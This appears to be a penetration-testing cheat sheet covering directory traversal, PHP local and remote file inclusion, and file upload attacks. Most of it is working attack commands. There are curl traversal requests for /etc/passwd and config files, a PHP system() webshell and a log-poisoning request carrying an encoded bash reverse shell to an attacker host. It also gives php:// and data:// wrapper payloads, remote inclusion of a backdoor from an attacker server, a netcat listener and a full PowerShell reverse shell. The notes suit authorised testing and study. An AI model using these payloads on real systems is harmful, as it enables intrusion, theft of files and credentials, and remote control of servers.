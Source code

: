 # Directory traversal

Example: `curl http://vulnsite/index.php?page=../../../../../../etc/passwd`
Windows (check both `/` and `\`):
```
curl http://vulnsite/index.php?page=..\..\..\..\..\..\Windows\System32\drivers\etc\hosts
curl http://vulnsite/index.php?page=../../../../../../inetpub\logs\LogFiles\W3SVC1\
curl http://vulnsite/index.php?page=../../../../../../wwwroot\web.config
```

Grafana CVE: https://golangexample.com/cve-2021-43798-grafana-8-x-path-traversal-pre-auth/ \
Apache 2.4.49 CVE: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-41773

## File inclusion

### Local file inclusion

Php snipet:
```
<?php echo system($_GET['cmd']);?>
```
and poison the log files with a Header (e.g. [User-Agent](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/User-Agent)) or another user controled field. Then traverse the directories to the log file:
```
http://sitetohack/index.php?page=../../../../../../../../../../var/log/apache2/access.log&cmd=bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F___AttackerIP___%2F___AttackerPort___%200%3E%261%22
```

Wrappers:
- all: https://www.php.net/manual/en/wrappers.php
- php: https://www.php.net/manual/en/wrappers.php.php
- data: https://www.php.net/manual/en/wrappers.data.php

Examples:
```
curl http://site/index.php?page=php://filter/resource=somepage.php
curl http://site/index.php?page=php://filter/convert.base64-encode/resource=somepage.php
curl http://site/index.php?page=data://text/plain,<?php%20echo%20system('ls');?>
echo -n '<?php echo system($_GET["cmd"]);?>' | base64
curl http://site/index.php?page=data://text/plain;base64,PD9waHAgZWNobyBzeXN0ZW0oJF9HRVRbImNtZCJdKTs/Pg==&cmd=ls"

### Remote file inclusion

Examples:
- https://github.com/tennc/webshell/blob/master/fuzzdb-webshell/php/simple-backdoor.php
- https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
```
kali$ python -m http.server 80
kali$ curl "http://sitetohack/index.php?page=http://IpAttacker/simple-backdoor.php&cmd=ls"
kali$ nc -lnvp 4444
kali$ curl "http://sitetohack/index.php?page=http://IpAttacker/php_reverse_shell.php"
```

Interactive TTY: https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/
```
python -c 'import pty; pty.spawn("/bin/bash")'
python -c 'import pty; pty.spawn("/bin/sh")'
```

## File upload

Test rarer extensions and upper/lowercase mix. \
Powershell reverse shell: https://gist.github.com/egre55/c058744a4240af6515eb32b2d33fbed3
```
$client = New-Object System.Net.Sockets.TCPClient('$AttackerIp',$AttackerPort);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex ". { $data } 2>&1" | Out-String ); $sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```
Beware of simple and double quotes... \
Webshells on Kali: `/usr/share/webshells`

## Command injection


